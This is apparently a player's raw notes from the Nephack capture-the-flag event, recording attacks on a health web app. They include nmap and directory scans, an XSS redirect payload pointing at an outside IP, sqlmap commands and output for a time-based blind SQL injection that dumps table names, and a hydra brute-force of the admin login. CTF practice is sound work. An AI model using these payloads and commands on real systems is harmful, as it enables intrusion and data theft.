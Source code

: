# Nephack CTF

## Notes

```
link nephack.io =>404 when visited from browser
ping goes through
next step is to nmap, maybe webserver is running on different port

Starting Nmap 7.60 ( https://nmap.org ) at 2020-06-07 19:01 +0545
Nmap scan report for health.nephack.io (172.67.217.104)
Host is up (0.14s latency).
Other addresses for health.nephack.io (not scanned): 104.27.170.29 104.27.171.29 2606:4700:3037::ac43:d968 2606:4700:3034::681b:ab1d 2606:4700:3034::681b:aa1d
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
443/tcp  open  tcpwrapped
8080/tcp open  tcpwrapped
8443/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|WAP|phone
Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.30 seconds


other addressees
104.27.130.251 172.67.158.79 2606:4700:3036::681b:82fb 2606:4700:3033::681b:83fb 2606:4700:3030::ac43:9e4f

stegosuite gave b64encoded data but i was dumb so i ignored
VjFaV2ExWXlSa2hUYTJ4V1lsUnNUbGxzVWxkak1XdDNXa2M1YUZKdGREVlplazVYWVVaYU5scDZhejA9
which translates to health.nephack.io

dirsearch
[11:58:58] 200 -    8B  - /config.php
[11:59:00] 301 -  194B  - /css  ->  http://health.nephack.io/css/
[11:59:01] 301 -  194B  - /db  ->  http://health.nephack.io/db/
[11:59:01] 403 -  580B  - /db/
[11:59:10] 301 -  194B  - /images  ->  http://health.nephack.io/images/
[11:59:11] 200 -    4KB - /index.php
[11:59:13] 301 -  194B  - /js  ->  http://health.nephack.io/js/

inspect about.php
reference to ctf.php

Puzzle Pieces:
---------------------
tos.php
config.php
./result_files/application-07b7790d9aebf9f2b11dc27c84ec4f50.css
<!-- This application is made by @dr.jackal  -->
ip address field
<!-- <input id="total-chol" name="total-chol" type="number" placeholder="130-320" class="form-control input-md" data-range="[130, 320]" required="required"> -->
<!-- This is used to compare the total chalestrol with the db  -->
<!-- Totlal Chalestrol = $total_chalostro -->
float(51) 51 in result3.php response
fieldname and ids are mixedup

xss possible age, HDL, systolic blood pressure, diastolic BP, age field 5, 9, 8, 10, 5

FFUF
------------
index.php               [Status: 200, Size: 4125, Words: 896, Lines: 125]
config.php              [Status: 200, Size: 8, Words: 1, Lines: 5]
footer.php              [Status: 200, Size: 777, Words: 35, Lines: 9]
about.php               [Status: 200, Size: 4999, Words: 1054, Lines: 133]
nav.php
flag => WORKS: gives a link to youtube video
```

Input sent in result page:
Age
HDL
Systotic
Diastolic
Diabetes
Smoking

Fuzzing
Name: aaaaaaaaaa<script>document.location='http://10.9.18.129'</script>

URL: /%00 => gives bad request

SQLMAP on hidden input field:
sqlmap -r request.txt -p total-chol => not vulnerable

_But age field might be vulnerable to timebased attack_
Parameter: age (POST) │
Type: AND/OR time-based blind │
Title: MySQL >= 5.0.12 AND time-based blind │
Payload: total-chol=120&name=Abc&email=nikeshmhr@wearehackerone.com&ip_address=104.27.130.251&address│
=address&age=20' AND SLEEP(5) AND 'oPgV'='oPgV&gender=1&trigly=150&l_d_lip=100&hdl_cholesterol=20&sys_blo│
od_pressue=90&d_blood_pressure=30&smoker=1&diabetes=1

## More attacks:S

sqlmap -r request.txt -p age --current-db
=> heart

sqlmap -r request.txt -p age -D heart --tables

```
[10 tables]
+-------------+
| table 9     |
| admin       |
| calc        |
| calc_value  |
| predication |
| products    |
| res         |
| result      |
| sales_stats |
| users       |
+-------------+
```

sqlmap -r request.txt -p age -D heart -T admin --columns # Need to do this for all tables

list column names => --columns
list no of rows => --count
list column names to dump -C a,b
dump --dump

sqlmap -r request.txt -p age -D heart --fingerprint

3334343434343434334
4433433343434343434333

33343434343434343344433433343434343434333

## dirsearch /

```
[21:47:33] 301 - 194B - /images -> http://health.nephack.io/images/
[21:47:40] 301 - 194B - /css -> http://health.nephack.io/css/
[21:47:44] 301 - 194B - /db -> http://health.nephack.io/db/
[21:47:45] 301 - 194B - /js -> http://health.nephack.io/js/
[21:47:55] 200 - 44B - /flag
[21:55:57] 200 - 4KB - /
[22:03:27] 301 - 194B - /system-management -> http://health.nephack.io/system-management/
```

## dirsearch /system-management

/admin => login page found

Bruteforcing /admin/index.php login page

hydra -l admin -P /media/nikesh/HDD/Security/wordlist/rockyou.txt health.nephack.io http-post-form "/system-management/admin/index.php:username=^USER^&password=^PASS^:<script>window.location.href='index.php'</script>" -V -f

Issue with bruteforce (false positive)
Fix failed message to <script>window.location.href='index.php'</script>

## TODO

dirsearch /db/, /system-management/
count no. of entries for table result
